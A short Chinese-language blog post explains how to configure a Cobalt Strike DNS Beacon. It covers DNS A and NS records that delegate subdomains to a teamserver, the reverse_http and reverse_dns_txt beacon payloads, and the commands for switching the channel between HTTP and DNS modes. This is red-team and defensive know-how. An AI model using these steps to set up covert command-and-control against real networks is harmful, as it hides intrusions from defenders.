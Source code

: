 ```yaml
---
title: "Cobalt Strike DNS Beacon"
date: 2019-07-05T00:00:00+08:00
draft: false
tags: ["cobalt strike"]
categories: ["内网渗透"]
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


通过添加 DNS Beacon 达到利用 DNS staging payload 的目的.

隐蔽性好, 但传输速度慢.

<!--more-->

首先需要配置 A 记录指向 teamserver 的 IP (NS 记录的目标只能为域名).

之后配置 NS 记录 (名称任意 不必为其子域名) 指向 teamserver 所在域名.

```
malwarec2  A   192.168.1.1
profile    NS  malwarec2.exp10it.cn
games      NS  malwarec2.exp10it.cn
pictures   NS  malwarec2.exp10it.cn
```

添加 DNS Beacon, 这里以 `windows/beacon_http/reverse_http` 为例.

![add dns beacon 1](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/2019/add_dns_beacon_1.jpg)

![add dns beacon 2](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/2019/add_dns_beacon_2.jpg)

至此, 对 NS 域名及其子域的所有请求都将被发送至 teamserver 所在服务器.

```
request profile.exp10it.cn to malwarec2.exp10it.cn
request test.profile.exp10it.cn to malwarec2.exp10it.cn
```

在 cobalt strike 添加 DNS Beacon 后将会启动 DNS Server, 开放 53 端口, 注意防火墙设置.

除此之外还有 `windows/beacon_dns/reverse_dns_txt`, 该 payload 完全利用 DNS TXT 记录传输数据, 因此 Listener 的端口是非必需的, 但可能会有数以千计的 DNS 请求被发送.

在 interact 中使用 `mode` 命令切换传输模式.

```
mode http //switch to HTTP mode
mode dns // switch to DNS A mode
mode dns6 // switch to DNS AAAA mode
mode dns-txt //switch to DNS TXT mode
```